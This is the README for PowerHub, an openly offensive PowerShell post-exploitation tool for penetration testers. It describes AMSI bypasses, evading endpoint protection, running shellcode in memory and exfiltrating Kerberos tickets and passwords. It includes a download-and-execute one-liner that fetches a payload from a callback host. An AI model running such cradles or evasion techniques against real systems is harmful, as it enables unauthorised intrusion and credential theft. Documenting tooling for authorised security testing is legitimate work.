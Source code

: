PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8080/0?t=http&f=r&a=reflection');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2021
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> lhm powerview
Name                                Type N  Loaded
----                                ---- -  ------
ps1/PowerSploit/Recon/PowerView.ps1 ps1  29   True
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment.

If you do want to install PowerHub, you should do `pip3 install --user .`.

Python2 is not supported.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.

venv
----

`venv` can be installed on Debian-like systems by `apt install
python3-venv`.

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install .`
to install the depencendies inside the virtual environment.

pipenv
------

Alternatively, you can use `pipenv`. `pipenv` can be installed on
Debian-like systems by `apt install pipenv`.

Run `pipenv install` once in the PowerHub directory, then `pipenv shell` to
activate the virtual environment.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2022

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
